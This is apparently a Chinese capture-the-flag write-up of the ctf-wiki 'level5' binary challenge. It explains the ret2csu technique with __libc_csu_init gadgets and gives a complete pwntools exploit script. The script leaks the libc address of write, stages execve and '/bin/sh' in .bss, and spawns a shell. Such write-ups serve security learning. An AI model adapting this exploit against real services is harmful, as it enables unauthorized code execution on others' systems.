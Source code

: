 #level5（ctf-wiki）
 __libc_csu_init函数会对libc进行初始化，因此当我们找不到合适的与寄存器相关的gadgets时，我们可以从 __libc_csu_init入手寻找gadgets  
首先使用objdump观察__libc_csu_init  
![](./index_files/1.jpg)  
![](./index_files/2.jpg)  
运行一下程序  
发现是一个简单的输入程序  
![](./index_files/3.jpg)  
调用了read函数读取输入  
那么首先利用pattern找到溢出点  
![](./index_files/4.jpg)  
程序中没有system函数和\bin\sh字符串，所以需要通过输入的方式进行构造  
利用的四个步骤：  
1、通过溢出执行write函数泄露出write函数本身的地址，再跳回到main函数中继续执行。  
2、利用write函数的地址确定对应的libc版本，然后算出execve的位置。  
3、通过溢出执行read函数，将execve与关键字符串写入到bss段中，再跳回到main函数继续执行。  
4、通过溢出执行bss段内的execve函数。  
需要涉及到的知识点  
1、64位程序的前六个参数通过寄存器传递。%rdi，%rsi，%rdx，%rcx，%r8，%r9 用作函数参数，依次对应第1参数，第2参数。。。  
2、read函数可以进行输入，write函数可以进行输出，fd=0为标准输入，df=1为标准输出。  

完整代码  
```
from pwn import *
from LibcSearcher import *
context.terminal = ['gnome-terminal','-x','sh','-c']
level5 = ELF("./level5")
sh = process("./level5")
bss_base = level5.bss()

write_got = level5.got['write']
read_got = level5.got['read']
main_addr = level5.symbols['main']
csu_mov_addr = 0x0000000000400600   #  mov rdx, r13 ;mov rsi, r14 ;mov edi, r15d ;call qword ptr [r12+rbx*8];add rbx, 1;cmp rbx, rbp;jnz hort loc_400600;
csu_pop_addr = 0x000000000040061A    #pop rbx; pop rbp;pop r12;pop r13;pop r14;pop r15;
payload1 = 'a' * 136
payload1 += p64(csu_pop_addr) + p64(0) +p64(1) + p64(write_got) + p64(8) + p64(write_got) + p64(1)
payload1 += p64(csu_mov_addr)
payload1 += 'a' * 56
payload1 += p64(main_addr)
sh.recvuntil('Hello, World\n')
sh.send(payload1)
sleep(1)
write_addr = u64(sh.recv(8))
print hex(write_addr)
libc = LibcSearcher('write',write_addr)
libc_base = write_addr - libc.dump('write')
execve_addr = libc_base + libc.dump('execve')
print hex(execve_addr)

payload2 = 'a' * 136
payload2 += p64(csu_pop_addr) + p64(0) +p64(1) + p64(read_got) + p64(16) + p64(bss_base) + p64(0)
payload2 += p64(csu_mov_addr)
payload2 += 'a' * 56
payload2 += p64(main_addr)
sh.send(payload2)

payload3 = p64(execve_addr) + '/bin/sh\x00'
sh.send(payload3)
sh.recvuntil('Hello, World\n')

payload4 = 'a' * 136
payload4 += p64(csu_pop_addr) + p64(0) +p64(1) + p64(bss_base) + p64(0) + p64(0) + p64(bss_base+8)
payload4 += p64(csu_mov_addr)
payload4 += 'a' * 56
payload4 += p64(main_addr)
sh.send(payload4)
sh.interactive()
```